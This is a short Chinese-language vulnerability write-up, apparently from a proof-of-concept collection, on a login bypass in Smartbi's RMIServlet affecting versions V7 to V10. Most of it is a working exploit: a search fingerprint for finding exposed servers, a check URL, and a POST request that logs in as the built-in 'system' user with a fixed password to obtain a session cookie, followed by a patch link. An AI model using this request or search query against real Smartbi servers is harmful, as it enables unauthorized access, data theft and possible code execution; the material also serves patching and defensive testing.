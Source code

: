 # Smartbi RMIServlet 登陆绕过漏洞

# Smartbi RMIServlet 登陆绕过漏洞

## 漏洞描述

该漏洞源于 Smartbi 默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。

## 漏洞影响

```
V7 <= Smartbi <=V10
```

## 网络测绘

```
app="SMARTBI"
```

## 漏洞复现

验证漏洞是否存在

```
http://your-ip/smartbi/vision/RMIServlet
```

出现以下回显证明漏洞存在

```
{"retCode":"CLIENT_USER_NOT_LOGIN","result":"尚未登录或会话过期"}
```

poc

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
```

通过获取的Cookie登陆。

## 漏洞修复

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：https://www.smartbi.com.cn/patchinfo

